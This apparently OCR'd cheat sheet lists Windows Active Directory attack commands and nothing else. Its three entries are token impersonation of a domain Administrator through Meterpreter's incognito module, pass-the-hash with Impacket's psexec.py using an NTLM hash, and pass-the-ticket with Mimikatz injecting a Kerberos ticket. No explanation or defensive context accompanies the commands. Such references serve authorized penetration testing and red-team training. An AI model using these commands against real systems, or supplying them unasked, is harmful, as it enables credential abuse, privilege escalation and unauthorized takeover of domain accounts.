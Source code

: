# Token Impersonation & Pass-the-Hash/Ticket

## Meterpreter

use incognito
list_tokens -u
impersonate_token "DOMAIN\\Administrator"
Pass-the-Hash (Impacket)

psexec.py <DOMAIN>/<USER>@<TARGET> -hashes :<NTLM>
Pass-the-Ticket (Mimikatz)

kerberos::ptt ticket.kirbi
